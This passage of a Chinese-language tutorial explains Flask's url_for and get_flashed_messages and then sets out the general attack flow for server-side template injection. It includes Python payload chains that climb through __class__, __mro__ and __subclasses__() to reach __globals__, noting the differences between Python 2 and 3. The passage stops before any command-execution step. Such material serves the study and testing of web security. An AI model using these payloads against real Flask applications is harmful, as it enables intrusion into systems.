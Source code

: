 flask.url_for() 函数。url_for() 会返回传入的路由函数对应的URL，所谓路由函数就是被 app.route() 路由装饰器装饰的函数。如果我们定义的路由函数是带有参数的，则可以将这些参数作为命名参数传入。

##### 6)get_flashed_messages()

flask.get_flashed_messages() 函数。返回之前在Flask中通过 flash() 传入的信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出。



## 0x3ssti注入的一般攻击流程

1.找到环境中的可以使用的环境变量,例如:内置函数方法（url_for()函数、get_flashed_messages()函数）、内置类的实例变量('',[]，config，self)。

2.若已得到内置函数方法则跳第4步骤，从内置类的实例变量方向出发的通过类的关系通过`__class__、__base__ or  __mro__`找到基本类（object类）.注意：python2与python3这步有的差别。

```python
#python 2:
	  # __base__路线
      ''.__class__.__base__.__base__
      #__mro__路线1
       ''.__class__.__mro__[2]
#python 3:
       # __base__路线
       ''.__class__.__base__
       #__mro__路线1
        ''.__class__.__mro__[1]
       
 #python 2/3 都可以用 的__mro__路线
		''.__class__.__mro__[-1]
```

3.通过`__subclasses__()`获取所有object类的子类，并用 `__dict__`从中寻找类其拥有的方法。

```python
''.__class__.__mro__[-1].__subclasses__()
#获取所有object类的子类
''.__class__.__mro__[-1].__subclasses__()[x].__dict__
#x表__subclasses__()返回列表的任意存在索引。
#__dict__ 中带有<function __init__ at 0x7f8a189dc320>  或<unbound method WarningMessage.__init__>就是我们可以利用的方法

#大多数类重载的了__init__方法，__init__方法也有__globals__属性。因此我们可以直接遍历x找带有__init__的类。
''.__class__.__mro__[-1].__subclasses__()[x].__init__


```

4.通过`__globals__`或`func_globals`得到的方法所在空间的所有类、属性、子模块与方法。例如：

```python
url_for.func_globals
url_for.__globals__

''.__class__.__mro__[-1].__subclasses__()[78].__init__.__globals__
''.__class__.__mro__[-1].__subclasses__()[78].__init__.func_globals

''.__class__.__mro__[-1].__subclasses__()[78].reset.__globals__
''.__class__.__mro__[-1].__subclasses__()[78].reset.func_globals
```
